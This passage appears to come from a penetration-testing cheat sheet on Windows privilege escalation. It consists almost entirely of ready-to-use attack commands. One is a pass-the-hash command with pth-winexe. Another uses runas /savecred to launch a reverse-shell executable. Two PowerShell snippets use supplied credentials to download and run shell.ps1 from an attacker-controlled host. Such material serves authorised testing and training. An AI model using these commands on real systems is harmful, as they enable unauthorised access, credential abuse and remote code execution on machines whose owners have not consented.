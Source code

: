 ```
# Found hash?
pth-winexe -U 'domain\admin%LM:NTLM' [--system] //10.10.10.10 cmd.exe
```

* Runas

```
# cmd
runas /savecred /user:admin C:\abcd\reverse.exe

# PowerShell Runas 1
$password = ConvertTo-SecureString 'pass123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://kali_ip/shell.ps1')" -Credential $cred

# PowerShell Runas 2
$username = "domain\Administrator"
$password = "pass123"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/shell.ps1') } -Credential $cred -Computer localhost
```